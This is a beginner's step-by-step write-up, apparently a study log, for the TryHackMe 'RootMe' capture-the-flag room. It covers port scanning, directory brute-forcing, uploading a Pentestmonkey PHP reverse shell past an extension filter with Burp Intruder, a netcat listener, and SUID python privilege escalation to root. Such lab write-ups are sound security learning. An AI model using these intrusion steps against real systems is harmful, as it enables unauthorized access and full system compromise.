 # ♦ Day 10
</br>
</br>

## ◙ ***TRYHACKME ROOM***
 </br>
 
# ♦ [RootMe](https://tryhackme.com/r/room/rrootme) : 
   ⇨ A ctf for beginners, can you root me? 
   </br>
   </br>
### ◙ Step-By-Step Guide 



### • 1. Start yor machine and set up your Vpn and stuff as shown in previous Repo's

### • 2. As the Task 2 is asking for how many ports are iopen so we are exactly gonna scan the ports and this process of gathering informations bya scanning and stuff is is also known as ***RECONNAISSANCE*** as like a professional name for doint scanning and stuff. Anyway we will do scanning using nmap and cammaod for taht is :
    nmap -sV >IP add<
</br>
⇨ as we can see that the there are 2 services are alive </br>
     Service --- Version </br>
  1.  ssh    - OpenSSH               (Secure Shell) </br>
  2.  http   - Apache httpd 2.4.29   (Hypertext Transfer Protocol).</br>


### • 3. The next task is to find hidden directory as we already know that for finding hidden directories we use ***gobuster***.
    gobuster dir -u >IP add< -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

⇨ As we can see that there are 5 hidden directories in total whaich are as
1. /css -  just a basic css page.
2. /js  -  is a java script page.
3. /uplaods  -  a page where all the uplaoded file are being stored.
4. /panel  -  an interface based page where we can uplaod files.
5. /server  -  a permission denied page.

### • 4. Now for getting into the server and collecting required data (i.e user.txt in task 3) we will upload a reverse shell (which will bring back a connection back from server back to our device)
the suggested reverse shel for this experiment is a shell by ***Pentestmonkey*** by using command -

    wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
⇨ After downlaoding the file we have to extract it and the open it by nano or mousepad or vscode whatever we just have to change it's ip and port no.</br>
⇨ For ip[ we have to provide tun0's ip and port can be any port which is not in use or we won't use.
### • 5. For uploading this file we will use a new tool known as ***Burpsuite*** thi sis a very good for pentresting and stuff on webpages. So now we have to set our burpsuite by doing folloing steps.
  • 1. Firstly we have to install an extension on any browser we are gonna use it's name is "[FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/)"
  
  • 2. Now we have to set our proxy to work for tht we have to go to our ***Burpsuite > Proxy > Setting > Then we have to set our port no > Then we will set our FoxyProxy's port no and number***
  
  • 3. Ok now whhen its it done we can open ***Intruder*** and now we can interfere with the files which are goihng to the server

  ### • 6. Now we have to bruteforce our php file by different php extensions given [Here](https://book.hacktricks.xyz/pentesting-web/file-upload)

   By doing this the intrtuder will try all the given php extensions and we can sucessfully upload our php file.

### • 7. Now for getting a connection back we simply have to open netcat listner in a terminal and then run tht uploaded php file
   for using netcat we have to give the given command 
        
    nc -lvnp >Port no. tht was given in shell<

### • 8. Now to find our desired file we have to rrun a find command like

    find / -type f -name user.txt 2> /dev/null
 or 
 
    find / -type f -name user.txt


    
   now we just have to cat the result 

     cat /var/www/user.txt

### • 9. Privilege Esclation

   To gain root acess we have to run a privilege esclation command to find th ecode we gtg at GFTOBins [Website](https://gtfobins.github.io/), and run the given command
         
        python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Now we are root user to confirm tht ewe have to use ***whoami*** command 
 now to find the root.txt file we simply have to use

    find / -type f -name root.txt 
    cat /root/root.txt
